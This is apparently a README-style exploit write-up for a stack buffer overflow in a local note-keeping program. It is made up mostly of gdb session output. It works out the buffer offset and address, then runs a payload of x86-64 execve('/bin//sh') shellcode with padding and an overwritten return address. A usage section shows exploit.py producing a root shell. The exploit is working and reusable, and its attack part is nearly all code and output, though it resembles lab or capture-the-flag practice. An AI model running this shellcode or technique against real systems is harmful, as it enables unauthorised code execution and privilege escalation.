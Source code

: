 # How it works
0x0000000000000bae <+39>:	lea    -0x70(%rbp),%rax

- 112 + 14 to the stack == 126

(gdb) break main
Breakpoint 1 at 0x555555554b8b

(gdb) run $(python -c 'print "A"*120')
Breakpoint 1, 0x0000555555554b8b in main ()

(gdb) print $rbp - 0x70
$1 = (void *) 0x7fffffffe090

(gdb) run $(python -c 'print "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + "A"*90 + "\x7f\xff\xff\xff\xe0\xb0"[::-1]')

The program being debugged has been started already.

Breakpoint 1, 0x0000555555554b8b in main ()
(gdb) c
Continuing.
H1�H�//bin/shH�SH��PWH���;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
-------[ end of note data ]-------
process 27222 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "main" not defined.
# 

- We use $rbp - 0x70 as the return address in exploit.py

# How to use exploit
root@kali:~# python exploit.py 
[DEBUG] found a 10 byte note for user id 0
-------[ end of note data ]-------
process 7588 is executing new program: /bin/dash
~# whoami
root
